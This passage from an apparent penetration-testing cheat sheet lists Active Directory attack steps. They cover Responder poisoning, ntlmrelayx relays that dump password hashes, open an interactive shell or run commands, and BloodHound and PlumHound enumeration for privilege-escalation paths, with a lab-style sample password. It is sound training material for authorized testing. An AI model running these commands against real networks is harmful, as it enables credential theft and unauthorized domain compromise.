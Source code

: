 ### 3. Start Responder
```sh
sudo responder -I tun0 -dP
```

### 4. Setup relays
```sh
# Dump password hashes
sudo ntlmrelayx.py -tf targets.txt -smb2support

# Create an interactive shell
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

# Run a command
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

## BloodHound Domain Enumeration
### 1. Run BloodHound enumeration
```sh
sudo bloodhound-python -d [DOMAIN] -u [USERNAME] -p [USER-PW] -ns [DC-IP] -c all
```

### 2. Start Neo4j & BloodHound GUI
```sh
sudo neo4j start
sudo bloodhound
```

### 3. Look for privileged users
- Users with `DCSYNC` or `ALLRIGHTS` permissions
- Follow thick-to-thin edge hierarchy for privilege escalation paths

---

## PlumHound Domain Enumeration (Optional)
### 1. Start Neo4j & BloodHound
```sh
sudo neo4j start
sudo bloodhound
```

### 2. Run PlumHound (after BloodHound setup)
```sh
git clone https://github.com/PlumHound/PlumHound.git
cd PlumHound/
sudo python3 plumhound.py --easy -p fcastle-Password1
sudo python3 plumhound.py -x tasks/default.tasks -p fcastle-Password1
```

---